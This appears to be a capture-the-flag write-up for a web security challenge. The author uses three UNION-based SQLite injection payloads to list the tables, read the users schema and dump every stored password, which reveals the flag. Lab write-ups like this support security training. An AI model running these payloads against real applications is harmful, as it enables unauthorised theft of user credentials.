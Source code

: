 Saw that the sql statement is injectable, and that we are querying from Users table.
Used this payload to see if there are any other tables:
```0 AND 1=0 UNION SELECT 1,(SELECT group_concat(name) FROM sqlite_master)```

The output I got is this:
Other User Details:
id -> 1
username -> users

meaning there is only a users table

The I used this payload to see what users is made up of:
```0 AND 1=0 UNION SELECT 1,(SELECT sql FROM sqlite_master WHERE name='users')```

And I got this output:
Other User Details:
id -> 1
username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))

meaning there is a password field.
So I used this payload to get all of them :)
```0 AND 1=0 UNION SELECT 1,(select group_concat(password)from users)```

And the output I got was this:
Other User Details:
id -> 1
username -> UnrelatedPassword,ExampleUserPassword,WEBSEC{Simple_SQLite_Injection}